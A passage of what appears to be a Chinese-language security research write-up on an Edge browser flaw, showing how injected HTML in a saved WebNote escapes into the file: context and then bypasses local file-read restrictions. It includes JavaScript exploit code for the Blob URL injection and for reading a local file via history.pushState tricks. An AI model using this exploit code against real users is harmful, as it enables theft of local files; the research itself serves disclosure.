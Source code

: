 5、第三个页面会在WebNote标签页中加载，立刻将自身变成一个新的Blob URL，此时就包含我们注入的HTML。

```
a=URL.createObjectURL(new Blob([`Now save this WebNote&lt;script&gt;
if(location.protocol=='file:')`{`

// Code in this block will be executed once the user opens the saved WebNote

`}`else`{`
window.onblur=e=&gt;`{`opener.postMessage("","*",[]);`}`
`}`
&lt;/script&gt;`],`{`type:'text/html'`}`));

history.replaceState('','',a.split('/')[3]);

location.protocol='blob:http:';
```

6、随后指导用户保存WebNote，这里Edge不会执行正常操作，保存屏幕截图，而是会保存我们构造的Blob内容。

7、一旦用户打开新创建的WebNote，我们注入的代码就会在`file:` URI scheme中执行。

现在我们已实现上下文逃逸，那么在这个`FILE:`上下文中，我们能执行哪些操作？



## 0x02 绕过文件读取限制

当涉及到本地文件上下文时，磁盘上的WebNote HTML文件位置属于比较特殊的情况。大家可以看到，如果我们使用Edge打开本地HTML文件，那么该文件就可以访问原始文件目录之外的其他文件。然而，WebNote HTML文件位于Edge的`AppData`目录中，该目录中也包含一些临时数据（另外打印预览文档也位于该目录中）。

Edge不允许位于`AppData`目录中的HTML文档访问其他路径。该目录与“Downloads”目录类似，在这些目录中打开的HTML文件无法访问工作目录之外的数据。举个例子：

`C:\Users\Q\Downloads\malice.html`无法访问`C:\a\secret.txt`，`C:\Users\Q\AppData\Local\Packages\Microsoft.MicrosoftEdge_8wekyb3d8bbwe\AC\#!001\MicrosoftEdge\User\Default\WebNotes\malice.html`无法访问`C:\a\secret.txt`，然而`C:\Users\Q\projects\mywebsite\createdByMe.html`可以访问`C:\a\secret.txt`。

根据我的猜测，如果HTML文件直接来自于互联网，那么与正常用户创建的文件相比，Edge会将该文件当成权限较低的内容。这种机制有点类似适用于Word/Excel文件的安全性。

现在不幸的是，我们注入的HTML位于受限文件上下文中。因此我们需要完成另一个逃逸任务，幸运的是这次任务比前面那一次要简单得多。首先我注意到浏览器并没有限制`replaceState`/`pushState`函数，单页面web应用通常会使用该函数来模拟网站导航行为。我在`file:` URI scheme内使用该函数，就可以修改HTML文档的路径。然而单单这样操作依然不够，Edge比较机智，不会被这种技巧糊弄，因此我需要稍加创新。

文档源已在其他地方设置，我在修改URL时并没有修改这个值。因此我只要找到办法欺骗Edge，使其认为打开的HTML文件位于其他位置，就能绕过各种限制。具体实现代码如下：

```
setTimeout(function()`{`

history.pushState('','','file:///C:/a/fictional-non-existent.html')

`}`,500);
setTimeout(function()`{`

document.write("&lt;a id=qa href="javascript:try`{`top.fetch('file:///C:/a/q.txt',`{`mode:'no-cors',credentials:'include'`}`).then((q)=&gt;`{`return q.text()`}`).then((q)=&gt;`{`alert(escape(q))`}`);`}`catch(e)`{``}`"&gt;aaaaa&lt;/a&gt;&lt;script&gt;qa.click()&lt;/script&gt;")
history.pushState('','','file:///C:/a/q.html');
history.back();

`}`,1500);
```
